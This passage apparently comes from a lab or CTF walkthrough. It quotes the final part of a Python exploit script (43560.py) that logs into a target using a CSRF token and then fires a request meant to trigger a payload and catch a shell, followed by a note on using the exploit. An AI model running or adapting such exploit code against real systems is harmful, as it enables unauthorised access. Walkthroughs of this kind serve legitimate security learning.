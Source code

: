 ```43560.py
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
            
```

![](./IMG/14.png)
- Check how to use this exploit code 
